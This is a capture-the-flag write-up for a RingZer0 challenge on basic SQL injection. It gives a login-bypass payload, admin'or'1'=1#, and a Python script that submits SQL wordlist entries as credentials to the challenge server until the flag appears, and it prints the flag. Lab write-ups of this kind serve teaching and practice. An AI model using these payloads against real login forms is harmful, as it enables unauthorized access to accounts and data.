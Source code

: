 <h1>Most basic SQLi pattern</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10001/</p>
<h3>Solution</h3>

<p>Injection <b>admin'or'1'=1#</b></p>

```python3
import requests

wordlist = open("../Wordlist/SQL.txt",'r')
url = "http://challenges.ringzer0ctf.com:10001/"
for i in wordlist:
    i = i.strip('\n')
    data = {"username":i,"password":i}
    res = requests.post(url,data=data).text.split('GOOD JOB! ')[1].split('</div>')[0]
    if "FLAG" in res:
        print(i,"Worked!")
        print(res)
        break
```
<h3>Flag</h3>
<pre>
  FLAG-238974289383274893
</pre>
